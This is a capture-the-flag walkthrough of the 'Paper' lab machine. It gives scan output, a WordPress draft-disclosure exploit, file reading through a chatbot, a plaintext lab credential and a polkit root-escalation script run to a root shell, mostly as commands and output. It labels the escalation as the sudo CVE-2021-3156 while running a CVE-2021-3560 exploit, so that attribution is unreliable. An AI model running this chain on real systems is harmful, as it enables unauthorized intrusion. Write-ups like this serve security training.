









# Paper

## Machine Info



## Recon

### port

- nmap

```console
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey:
|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA)
|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA)
|_  256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519)
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
|_http-title: HTTP Server Test Page powered by CentOS
| http-methods:
|_  Potentially risky methods: TRACE
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US
| Subject Alternative Name: DNS:localhost.localdomain
| Not valid before: 2021-07-03T08:52:34
|_Not valid after:  2022-07-08T10:32:34
|_http-title: HTTP Server Test Page powered by CentOS
|_ssl-date: TLS randomness does not represent time
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| http-methods:
|_  Potentially risky methods: TRACE
| tls-alpn:
|_  http/1.1
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.2 - 4.9 (96%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), Linux 3.18 (94%), Linux 3.16 (94%), Linux 5.0 (93%), ASUS RT-N56U WAP (Linux 3.4) (93%), Adtran 424RG FTTH gateway (93%), Linux 2.6.32 (93%)
```

### domain names

- discover from http response header: `office.paper` which is a wordpress site.



### wordpress

- wpscan: `wpscan -e ap,at,tt,cb,dbe,u,m --plugins-detection aggressive --url http://office.paper`

```console
...
[+] WordPress version 5.2.3 identified (Insecure, released on 2019-09-04).
 | Found By: Rss Generator (Passive Detection)
 |  - http://office.paper/index.php/feed/, <generator>https://wordpress.org/?v=5.2.3</generator>
 |  - http://office.paper/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.2.3</generator>
...
[+] WordPress theme in use: construction-techup
 | Location: http://office.paper/wp-content/themes/construction-techup/
 | Last Updated: 2022-09-22T00:00:00.000Z
 | Readme: http://office.paper/wp-content/themes/construction-techup/readme.txt
 | [!] The version is out of date, the latest version is 1.5
 | Style URL: http://office.paper/wp-content/themes/construction-techup/style.css?ver=1.1
 | Style Name: Construction Techup
 | Description: Construction Techup is child theme of Techup a Free WordPress Theme useful for Business, corporate a...
 | Author: wptexture
 | Author URI: https://testerwp.com/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.1 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://office.paper/wp-content/themes/construction-techup/style.css?ver=1.1, Match: 'Version: 1.1'
...
[i] Plugin(s) Identified:

[+] stops-core-theme-and-plugin-updates
 | Location: http://office.paper/wp-content/plugins/stops-core-theme-and-plugin-updates/
 | Last Updated: 2023-10-17T21:28:00.000Z
 | Readme: http://office.paper/wp-content/plugins/stops-core-theme-and-plugin-updates/readme.txt
 | [!] The version is out of date, the latest version is 9.0.17
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://office.paper/wp-content/plugins/stops-core-theme-and-plugin-updates/, status: 200
 |
 | Version: 9.0.9 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://office.paper/wp-content/plugins/stops-core-theme-and-plugin-updates/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://office.paper/wp-content/plugins/stops-core-theme-and-plugin-updates/readme.txt
```

## Foothold

### CVE-2019-17671 WordPress Core < 5.2.3 - Viewing Unauthenticated Posts

**Reference**: [WordPress Core < 5.2.3 - Viewing Unauthenticated/Password/Private Posts - Multiple webapps Exploit (exploit-db.com)](https://www.exploit-db.com/exploits/47690)

Use this CVE we can read a post:

- a subdomain: `chat.office.paper`
- a chat system register url: `http://chat.office.paper/register/8qozr226AhkCHZdyY`

```console
test

Micheal please remove the secret  from drafts for gods sake!

Hello employees of Blunder Tiffin,
Due to the orders from higher officials, every employee who were  added to this blog is removed and they are migrated to our new chat  system.
So, I kindly request you all to take your discussions from the public blog to a more private chat system.
-Nick

# Warning for Michael
Michael, you have to stop putting secrets in the drafts. It is a huge security issue and you have to stop doing it. -Nick

Threat Level Midnight
A MOTION PICTURE SCREENPLAY,
WRITTEN AND DIRECTED BY
MICHAEL SCOTT
[INT:DAY]
Inside the FBI, Agent Michael Scarn sits with his feet up on his desk. His robotic butler Dwigt….

# Secret Registration URL of new Employee chat system
http://chat.office.paper/register/8qozr226AhkCHZdyY
# I am keeping this draft unpublished, as unpublished drafts cannot be accessed by outsiders. I am not that ignorant, Nick.
# Also, stop looking at my drafts. Jeez!
```





### Chat Box & LFI

Find a chat room and see the words to find a deployed chat box:





**LFI POC**:

- `recyclops list dir` = ls -al (local)
- `recyclops file filename` = cat filename (local)



Enumerate dwight home directory: find a plain text of dwight's credential `recyclops:Queenofblad3s!23`





```console
└─╼$ ssh dwight@$IP
dwight@10.10.11.143's password:
Activate the web console with: systemctl enable --now cockpit.socket

Last login: Tue Feb  1 09:14:33 2022 from 10.10.14.23
[dwight@paper ~]$ id
uid=1004(dwight) gid=1004(dwight) groups=1004(dwight)
[dwight@paper ~]$ uname -a
Linux paper 4.18.0-348.7.1.el8_5.x86_64 #1 SMP Wed Dec 22 13:25:12 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```

## Privilege Escalation

Enumerate using linpeas and find sudo version is vulnerable: **CVE-2021-3156**

- [secnigma/CVE-2021-3560-Polkit-Privilege-Esclation](https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation)
- [Privilege escalation with polkit: How to get root on Linux with a seven-year-old bug](https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/)
- [CVE-2021-3560- Red Hat Customer Portal](https://access.redhat.com/security/cve/cve-2021-3560)

```console
[dwight@paper Rocket.Chat]$ sudo --version
Sudo version 1.8.29
Sudoers policy plugin version 1.8.29
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.29

[dwight@paper Rocket.Chat]$ cat /etc/*-release
CentOS Linux release 8.5.2111
NAME="CentOS Linux"
VERSION="8"
ID="centos"
ID_LIKE="rhel fedora"
VERSION_ID="8"
PLATFORM_ID="platform:el8"
PRETTY_NAME="CentOS Linux 8"
ANSI_COLOR="0;31"
CPE_NAME="cpe:/o:centos:centos:8"
HOME_URL="https://centos.org/"
BUG_REPORT_URL="https://bugs.centos.org/"
CENTOS_MANTISBT_PROJECT="CentOS-8"
CENTOS_MANTISBT_PROJECT_VERSION="8"
CentOS Linux release 8.5.2111
CentOS Linux release 8.5.2111
```

**Exploit**:

```console
[dwight@paper shm]$ bash CVE-2021-3156.sh -u=qwe -p=qwe
[!] Username set as : qwe
[!] No Custom Timing specified.
[!] Timing will be detected Automatically
[!] Force flag not set.
[!] Vulnerability checking is ENABLED!
[!] Starting Vulnerability Checks...
[!] Checking distribution...
[!] Detected Linux distribution as "centos"
[!] Checking if Accountsservice and Gnome-Control-Center is installed
[+] Accounts service and Gnome-Control-Center Installation Found!!
[!] Checking if polkit version is vulnerable
[+] Polkit version appears to be vulnerable!!
[!] Starting exploit...
[!] Inserting Username qwe...
Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required
[+] Inserted Username qwe  with UID 1005!
[!] Inserting password hash...
[!] It looks like the password insertion was succesful!
[!] Try to login as the injected user using su - qwe
[!] When prompted for password, enter your password
[!] If the username is inserted, but the login fails; try running the exploit again.
[!] If the login was succesful,simply enter 'sudo bash' and drop into a root shell!
[dwight@paper shm]$ su - qwe
Password:
[qwe@paper ~]$ id
uid=1005(qwe) gid=1005(qwe) groups=1005(qwe),10(wheel)
[qwe@paper ~]$ sudo bash

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for qwe:
[root@paper qwe]# id
uid=0(root) gid=0(root) groups=0(root)
```

## Exploit Chain

port scan -> 80,443 -> http response with domain name -> wordpress site with cve to reveal authenticated post -> subdomain site, a chat system -> register to find a deployed box with LFI -> plain-text cred -> dwight shell -> vulnerable sudo version with a cve -> root shell
